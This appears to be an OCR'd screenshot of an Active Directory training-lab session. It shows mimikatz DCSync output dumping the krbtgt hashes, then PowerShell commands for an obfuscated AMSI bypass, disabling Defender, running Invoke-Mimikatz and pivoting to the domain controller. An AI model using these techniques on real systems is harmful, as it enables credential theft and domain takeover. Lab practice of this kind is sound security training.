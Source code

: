   .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:dcorp\krbtgt
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 2/16/2019 11:01:46 PM
Object Security ID   : S-1-5-21-1874506631-3219952063-538504511-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: ff46a9d8bd66c6efd77603da26796f35
    ntlm- 0: ff46a9d8bd66c6efd77603da26796f35
    lm  - 0: b14d886cf45e2efb5170d4d9c4085aa2

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6cb7f438bf5c099fe4d029ebb5c6e08e

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\